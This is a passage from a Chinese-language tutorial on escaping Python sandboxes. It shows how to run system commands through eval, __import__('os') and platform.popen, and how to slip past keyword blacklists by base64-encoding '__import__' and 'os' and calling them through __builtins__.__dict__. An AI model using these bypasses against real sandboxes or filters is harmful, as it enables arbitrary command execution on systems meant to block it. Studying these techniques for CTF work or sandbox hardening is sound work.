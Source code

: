 ** exec 和 eval 比较经典了**
```py
eval('__import__("os").system("dir")')

```
**platform**
```py
import platform
print platform.popen('dir').read()
```

但是，正常的 Python 沙箱会以黑名单的形式禁止使用一些模块如 os 或以白名单的形式只允许用户使用沙箱提供的模块，用以阻止用户的危险操作。而如何进一步逃逸沙箱就是我们的重点研究内容。

## Python 的内建函数
当我们不能导入模块，或者想要导入的模块被禁，那么我们只能寻求 Python 本身内置函数（即通常不用认为导入，Python
首先，我们应该确定程序还有哪些内置函数可以用，我们可以通过 `dir __builtin__` 来获取内置函数列表
```python
>>> dir(__builtins__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BufferError', 'BytesWarning', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'NameError', 'None', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'ReferenceError', 'RuntimeError', 'RuntimeWarning', 'StandardError', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '_', '__debug__', '__doc__', '__import__', '__name__', '__package__', 'abs', 'all', 'any', 'apply', 'basestring', 'bin', 'bool', 'buffer', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'cmp', 'coerce', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'execfile', 'exit', 'file', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'intern', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'long', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'raw_input', 'reduce', 'reload', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'unichr', 'unicode', 'vars', 'xrange', 'zip']
```
在Python中，不引入直接使用的内置函数被成为**builtin**函数，随着**__builtin__**这个模块自动引入到环境中

进而，我们可以通过`__dict__`引入我们想要引入的模块

两种方法都是一个目的,那就是列出一个模组/类/对象 下面 所有的属性和函数
这在沙盒逃逸中是很有用的,可以找到隐藏在其中的一些东西
我们可以通过`__dict__`做什么呢？
一个模块对象有一个由字典对象实现的命名空间…属性引用被转换为这个字典中的查找，例如，m.x等同于m.dict["x"]

绕过实例：
首先通过 base64 绕过字符明文检测
```python
>>> import base64
>>> base64.b64encode('__import__')
'X19pbXBvcnRfXw=='
>>> base64.b64encode('os')
'b3M='
```
然后通过 **__dict__** 引用
```py
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))
```
